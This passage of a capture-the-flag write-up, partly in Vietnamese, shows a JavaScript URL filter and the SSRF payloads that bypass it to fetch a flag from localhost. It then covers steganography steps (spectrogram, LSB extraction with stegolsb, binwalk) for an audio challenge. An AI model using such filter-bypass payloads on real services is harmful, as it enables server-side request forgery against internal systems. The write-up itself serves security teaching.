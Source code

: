 ```javascript

  return true;
}

```
### Challenge 2
```javascript
function extremeFilter(url) {
  // Hardcoded filter lmaooo
  if (url.substring(0, 4) !== "http" || url.substring(7, 28) !== "picsum.photos/900/500" || url.includes('flag')) {
    return false;
  }
  return true;
}
```

### Final payload
#### Challenge 1:
```
 http:localhost:5000/flag#http://kenhsinhvien.vn/topic
```
or 
```
 http:/\localhost:5000/flag#http://kenhsinhvien.vn/topic

```
#### Challenge 2:
```
http:0/picsum.photos/900/500/../../../get?url=http://localhost/fl%61g
```
**Flag:** `HCMUS-CTF{55Rf_St4nD_f0r_5uP3r_s3CUr3d_rEqu3st_f0rg3Ry?}`
## Know Your Sound
### Part 1
Sử dụng Sonic Audio Visualizer mở file => Thêm layer Spectrogram vào sẽ thấy phần 1 của flag
![](https://i.imgur.com/Jn86PDa.png)

### Part 2
Hint: LSB (Least Significant Bit)
Dựa vào hint thì ta tìm thử các tool xem có tool nào có thể extract được LSB từ wav.
Thì có 1 tool gọi là [stegolsb](https://github.com/ragibson/Steganography)
Sư dụng module wavsteg:
```bash
stegolsb wavsteg -r -i mysterious.wav -o out -n 1 -b 30000
```
Kết quả sẽ ra cái hình:

![](https://i.imgur.com/TPOGCsT.jpg)
### Part 3
Chạy binwalk trên file wav sẽ thấy có file rick.jpg được dấu ở trong file.
![](https://i.imgur.com/1Ze61X6.png)
